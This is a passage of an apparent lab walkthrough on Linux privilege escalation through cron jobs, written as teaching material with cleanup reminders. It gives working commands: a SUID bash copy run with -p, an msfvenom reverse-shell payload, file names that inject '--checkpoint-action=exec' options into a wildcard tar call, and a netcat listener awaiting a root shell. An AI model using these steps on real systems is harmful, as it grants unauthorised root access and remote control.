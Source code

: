 `chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

```
rm /tmp/rootbash
exit
```

1. What is the value of the PATH variable in /etc/crontab?

```
cat /etc/crontab
```

`home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron Jobs - Wildcards

View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

**Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:**
